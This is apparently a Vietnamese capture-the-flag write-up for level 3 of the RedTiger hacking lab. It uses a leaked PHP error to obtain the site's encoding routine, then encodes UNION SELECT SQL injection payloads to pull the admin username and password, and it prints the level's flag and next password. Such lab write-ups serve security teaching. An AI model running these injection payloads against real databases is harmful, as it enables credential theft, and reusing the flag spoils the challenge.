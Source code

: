 #BÁO CÁO LEVEL 3
 
 `http://redtiger.labs.overthewire.org/level3.php`

 ![text](http://i.imgur.com/93Qmkau.png)

 -Click vào `Cow` hoặc `Admin` thì sẽ dẫn tới một đường Link `http://redtiger.labs.overthewire.org/level3.php?usr=MDQyMjExMDE0MTgyMTQw.`
 	
 +Ta có thể thấy đoạn username=`MDQyMjExMDE0MTgyMTQw` Là một đoạn đã được mã hóa. Và `usr` biểu thị Cho Where của nó. Để text xem nó bị mã hóa ra sao thì ta thêm `[]` vào sau usr.
 	
 +`usr[]` ở đây có nghĩa là truyền giả định vào một mảng.Tất cả các hàm chỉ nhận chuỗi sẽ show ra lỗi vì lí do là người lập trình không ẩn lỗi đó đi.

-`http://redtiger.labs.overthewire.org/level3.php?usr[]=MDQyMjExMDE0MTgyMTQw`

![text](http://i.imgur.com/QxspsXD.png)

+Ta thấy xuất hiện đoạn lỗi ` Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 25`

-Dựa theo lỗi đó truy cập vào đường link: `http://redtiger.labs.overthewire.org/urlcrypt.inc`

+Vào source của nó ta sẽ được một đoạn Code mã hóa như sau:
```sh
<?php

	// warning! ugly code ahead :)
  		
	function encrypt($str)
	{
		$cryptedstr = "";
		srand(3284724);
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  
	function decrypt ($str)
	{
		srand(3284724);
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}

				foreach($array as $s)
				{
					$a = $s ^ rand(0, 255);
					$decStr .= chr($a);
				}
				
				return $decStr;
			}
			return false;
		}
		return false;
	}
?>
```
-Đây là một đoạn Code mã hóa của PHP. Chứng tỏ một điều rằng nếu ta muốn khai thác lỗi thì mọi câu lệnh ta nhập vào phải được mã hóa trước khi truy vấn.

-Vì đây là PHP nên ta dùng trang `http://www.writephponline.com/` này để chạy code. Và dùng riêng đoạn này để mã hóa:
```sh
function encrypt($str)
	{
		$cryptedstr = "";
		srand(3284724);
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
```

-Bắt đầu khai thác các lỗi trong SQL-Injection:
	
	1.Khai thác cột bị lỗi và thông tin trong cột: `' Union Select 1,2,3,4,5,6,7#` .  Ở đây `'` và `#` Có nghĩa là bỏ qua việc check where và comment. Tất nhiên câu lệnh phải được mã hóa trước khi truy vấn.

![text](http://i.imgur.com/5CNxMSo.png)

	2. Ta thu được một trang mới với table,cột, và thuộc tính của cột:

![text](http://i.imgur.com/iUNvEUx.png)	

	3.Dựa vào thông tin thu được tiếp tục truy vấn để tìm ra username và password: `' Union Select 1,username,3,password,5,6,7 From level3_users Where username='Admin'#` Tất nhiên đoạn lệnh này phải được mã hóa:

![text](http://i.imgur.com/ZRKABMJ.png)
	
	4.Kết quả thu được:

![text](http://i.imgur.com/5SO9pRY.png)

```sh

Login correct. You are admin :);


You can raise your wechall.net score with this flag: a707b245a60d570d25a0449c2a516eca

The password for the next level is: there_is_no_bug

Hackit
```

	BÁO CÁO KẾT THÚC.

				







